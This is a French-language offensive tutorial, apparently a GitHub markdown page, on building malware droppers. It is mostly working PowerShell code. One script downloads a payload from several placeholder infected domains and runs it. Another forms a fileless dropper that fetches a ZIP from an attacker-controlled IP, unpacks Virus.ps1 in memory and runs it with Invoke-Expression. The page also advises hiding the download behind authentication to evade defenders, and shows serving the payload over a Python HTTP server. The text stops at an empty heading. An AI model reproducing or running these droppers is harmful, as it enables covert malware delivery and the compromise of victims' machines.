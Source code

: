 
La plupart des malwares ne sont pas distribué en un seul fichier et fonctionne en 2 étages :

# __Dropper___

Afin **télécharger** et d'**éxecuter** le malware **en mémoire**, on va faire éxecuter un **dropper** qui va faire appel à un domaine infecté pour télécharger notre payload.

Notez qu'il est conseillé de mettre une authentification web au téléchargement dans le but d'éviter une collecte par des blueTeamers qui aurai vu passer le flux sans avoir accès au code du dropper.

### Exemple

Avec powershell ce code ressemblerai à cela :

```powershell
$wvh = new-object net.webclient;
$nsh='http://<InfectedDomain1>/trkldl@http://<InfectedDomain2>/adCa0ad@http://<InfectedDomain3>/bl4bl4c4r'.split("@");
$onj = '453';
$dxo=$env:temp+'\'+$onj+'.exe';
foreach($wzi in $nsh){
	try{
		$wvh.downloadfile($wzi, $dxo);
		if((get-item $dxo).length -ge 80000){
			invoke-item $dxo;
			break;
		}	
	}catch{}
}
```

Pour résumer ce payload va :
- **Creer un objet pour telecharger**
- **Faire une liste des liens où trouver le malware**
- **Télécharger** puis **executer** le premier fichier qui aura une taille > 80000

## __Telechargement__

Windows 10 et + :

```powershell
Invoke-WebRequest -Uri 'http://<MACHINE_IP>:8000/Virus.zip' -outfile "virus.zip";
```

Windows 7 et - :

```powershell
# Creation d'un nouveau client web
$webClient = [System.Net.WebClient];

# Telechargement des donnes dans une variable
$zip = $webClient.DownloadData('http://<MachineIP>:8000/Virus.zip');
```


## __Extraction__

Une fois l'étape précédente effectué, le ZIP se trouve en mémoire dans la variable $zip. On doit donc les extraire en restant en mémoire.

```powershell
# Chargement de la bibliothèque System.IO.Compression
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression') | Out-Null;

# Ouverture du fichier 'Virus.ps1' dans l'objet zip en mémoire
$entry = (New-Object System.IO.Compression.ZipArchive(New-Object System.IO.MemoryStream (, $zip))).GetEntry('Virus.ps1');

# Décompression du fichier
$b = [byte[]]::new($entry.Length);
$entry.Open().read($b, 0, $b.Length);

# Conversion en texte UTF8
$code = [System.Text.Encoding]::UTF8.GetString($b);
```


## __Execution__

Une fois le payload stocké en mémoire il ne reste plus qu'à l'éxécuter.

```powershell
$code | Invoke-Expression
```


## __Exemple_Memory_Dropper___

En combinant tout cela on peut faire un dropper fonctionnant exclusivement dans la mémoire :

```powershell
$webClient = [System.Net.WebClient];
$zip = $webClient.DownloadData('http://<MACHINE_IP>:8000/Virus.zip');
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression') | Out-Null;
$entry = (New-Object System.IO.Compression.ZipArchive(New-Object System.IO.MemoryStream (, $zip))).GetEntry('Virus.ps1');
$b = [byte[]]::new($entry.Length);
$entry.open().Read($b, 0, $b.Length);
$code = [System.Text.Encoding]::UTF8.GetString($b);
$code | iex;
```


# __Downloading_Server___

Pour télécharger notre payload depuis la cible, on doit mettre en place un serveur HTTP.

## Python

On peut utiliser python qui nous crée un server web très facilement.

```shell
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

## Powershell

